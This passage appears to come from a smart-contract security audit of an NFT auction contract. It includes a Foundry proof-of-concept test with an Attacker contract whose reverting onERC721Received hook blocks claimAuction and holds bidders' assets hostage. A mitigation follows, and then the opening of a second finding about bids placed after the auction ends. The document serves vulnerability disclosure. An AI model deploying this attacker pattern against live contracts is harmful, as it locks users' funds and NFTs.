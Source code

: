 contract HighestBidderDos is Base, Test {
    Attacker attacker;
    address user;

    function setUp() public {
        attacker = new Attacker();
        user = makeAddr("user");
        _deploy();
        skip(1 days);
        _initAuction();
    }

    function test_exploit() public payable {
        vm.deal(user, 1 ether);
        vm.prank(user);
        auction.participateToAuction{value: 1 ether}(tokenId);
        
        vm.deal(address(attacker), 2 ether);
        vm.prank(address(attacker));
        auction.participateToAuction{value: 2 ether}(tokenId);

        uint256 endTime = nextGenMinterContract.getAuctionEndTime(tokenId);
        vm.warp(endTime);
        // Transfer of NFT is reverted when onERC721Received hook is called on the attacker's address
        vm.expectRevert("ERC721: transfer to non ERC721Receiver implementer");
        auction.claimAuction(tokenId);
        // Attacker could release hostage assets at any time
        attacker.allowClaim();
        auction.claimAuction(tokenId);
    }
}

contract Attacker {
    bool shouldRevert = true;

    function allowClaim() external {
        shouldRevert = false;
    }

    function onERC721Received(address, address, uint256, bytes memory) external view returns (bytes4) {
        if (shouldRevert) {
            revert();
        } 
        return hex'150b7a02'; 
    }
}
```
This test requires a ```Base.t.sol``` file: https://gist.github.com/sashik-eth/accf61913418dddc86d94ff5ae6fe9bd

## Recommended Mitigation Steps
Consider transferring NFT to the winner's address using the ERC721.transferFrom function instead of the ERC721.safeTransferFrom, this would not allow the auction winner to block claimAuction function.


## [M-04]  AuctionDemo.sol Allows Bidding After Auction Ends resulting in loss of user's ether 

## Vulnerability details
The ```AuctionDemo.sol``` contract allows users to continue placing bids on an NFT even after the auction has officially ended and the NFT has been claimed by the highest bidder when ```block.timestamp == minter.getAuctionEndTime(tokenId)```. This issue can lead to several adverse consequences, including users losing their Ether without a way to cancel their bids.

The Attack Scenario

1. The auction contract includes a participateToAuction function that allows users to place bids.
```